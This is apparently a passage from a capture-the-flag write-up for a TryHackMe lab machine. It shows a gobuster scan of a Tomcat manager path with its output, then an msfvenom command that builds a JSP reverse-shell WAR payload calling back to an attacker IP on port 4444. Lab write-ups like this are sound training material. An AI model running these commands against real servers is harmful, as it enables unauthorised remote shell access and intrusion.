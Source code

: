 
```bash
gobuster dir -u http://dotjar.thm:8080/manager/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dotjar.thm:8080/manager/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 302) [Size: 0] [--> /manager/images/]
/html                 (Status: 401) [Size: 2499]
/text                 (Status: 401) [Size: 2499]
/status               (Status: 401) [Size: 2499]
/http%3A%2F%2Fwww     (Status: 400) [Size: 804]
/http%3A%2F%2Fyoutube (Status: 400) [Size: 804]
/http%3A%2F%2Fblogs   (Status: 400) [Size: 804]
/http%3A%2F%2Fblog    (Status: 400) [Size: 804]
/**http%3A%2F%2Fwww   (Status: 400) [Size: 804]
/External%5CX-News    (Status: 400) [Size: 795]
/http%3A%2F%2Fcommunity (Status: 400) [Size: 804]
/http%3A%2F%2Fradar   (Status: 400) [Size: 804]
/http%3A%2F%2Fjeremiahgrossman (Status: 400) [Size: 804]
/http%3A%2F%2Fweblog  (Status: 400) [Size: 804]
/http%3A%2F%2Fswik    (Status: 400) [Size: 804]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```


<br>
<h3>xx.xxx.xx.xxx:8080</h3>

<img width="1123" height="715" alt="image" src="https://github.com/user-attachments/assets/0502e9d0-9ea6-46ed-b052-20b7aa487ba5" />

<br>


```bash
:~/VulnNetDotJAR# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.201.1.67 LPORT=4444 -f war -o rev.war
Payload size: 1100 bytes
Final size of war file: 1100 bytes
Saved as: rev.war
```

